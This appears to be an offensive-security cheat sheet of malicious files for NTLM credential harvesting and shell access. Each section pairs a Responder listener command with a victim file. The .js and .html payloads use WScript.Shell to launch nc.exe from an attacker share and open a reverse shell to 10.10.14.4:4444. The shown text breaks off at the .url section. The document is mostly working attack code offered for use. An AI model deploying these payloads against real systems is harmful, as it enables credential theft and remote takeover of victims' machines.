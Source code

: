 ## ⭐ Attacker

```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.js

```
var shell = new ActiveXObject("WScript.Shell");
shell.run("\\\\10.10.14.4\\tools\\nc.exe -e cmd.exe 10.10.14.4 4444", 0);
```
## 🐈‍⬛ .html file 🐈‍⬛

An HTML file that can include JavaScript, used to execute scripts or commands when opened in a browser or HTML application.

## ⭐ Attacker

```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.html

```
<html>
<head>
<title>NTLM Harvester</title>
<script>
var shell = new ActiveXObject("WScript.Shell");
shell.Run('\\\\10.10.14.4\\tools\\nc.exe -e cmd.exe 10.10.14.4 4444', 0);
</script>
</head>
<body>
</body>
</html>
```

## 🐈‍⬛ .url file 🐈‍⬛

A URL file is a simple text file that contains a web address. When opened, it launches the default web browser to navigate to that address, making it useful for redirecting users to malicious sites.

## ⭐ Attacker


```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.url
